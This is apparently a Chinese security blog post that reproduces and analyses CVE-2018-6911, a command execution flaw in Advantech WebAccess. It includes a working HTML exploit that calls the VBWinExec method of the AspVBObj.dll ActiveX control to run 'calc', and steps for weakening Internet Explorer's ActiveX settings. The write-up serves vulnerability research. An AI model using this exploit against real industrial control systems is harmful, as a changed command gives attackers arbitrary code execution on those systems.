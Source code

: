 ```yaml
---
title: 工控漏洞@CVE-2018-6911 Advantech WebAccess远程任意命令执行复现分析
date: 2021-02-06 17:25:48
tags:
cover: https://gitee.com/tutucoo/images/raw/master/uPic/Yx1Kja.jpg
---
```


## 漏洞概述 

Advantech Webaccess Node目录下的AspVBObj.dll文件中存在VBWinExec方法，该方法允许攻击者通过命令参数执行任意系统命令



## 环境准备

1.Windows 7 

2.Advantech WebAccess 8.2

3.IE 9



## 漏洞复现



 安装Advantech WebAccess 8.2

由于该漏洞是利用com组件，因此只要存在AspVBObj.dll文件即可完成EXP，安装完毕后，将EXP另存为html文件

```
<title>Advantech WebAccess Node8.3.0 "AspVBObj.dll" - Remote Code Execution</title>

<body> 
    <object id=rce classid="clsid:{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}"></object>
    <SCRIPT>  
        function exploit() { 
            rce.VBWinExec("calc") 
        }  
    </SCRIPT> 
    <input language=JavaScript onclick=exploit() type=button value="Exploit-Me">
</body>

</HTML>	
```

打开IE选项-安全-自定义级别

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3erp1j30d607wt9i.jpg)

 

设置“对未标记为可安全执行脚本的ActiveX控件初始化并执行”为启用

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3xkx6j30es02qjrn.jpg)

 

 

 在Windows7上访问服务器的EXP网页，执行exp

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl05u9sj30gm06qq36.jpg)

  

命令顺利执行

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl4bvulj30c60dygnn.jpg)

 

 

 

## 漏洞原理

 

在html的object元素中定义clsid，可以用于Windows上的com组件的引用，clsid是该dll的统一唯一标识符，Windows中的com组件就是通过clsid来进行引用的。

根据它的clsid：{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}在注册表中进行搜索

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl0mqggj30i007i74r.jpg)

 

可以找到它的键值，AspVBObj

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl120kuj30rg0h0acu.jpg)

 

 

 

可以猜测这是它的一个dll文件，在C:\WebAccess\Node目录下找到AspVBObj.dll，拖进IDA进行逆向分析，打开字符串小窗口看到一个VBWinExec函数

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdkznvuej30ya0b2413.jpg)

 

根据经验可以判断这个很可能是个命令执行的函数，根据poc，可以看到这个命令执行的函数使用方法是直接传递字符串calc实现了弹出系统自带计算器

 

## 总结

经测试在Advantech WebAccess 8.2版本中也存在该漏洞，可以成功执行EXP，基于该漏洞的类型，影响的版本可能比较广泛。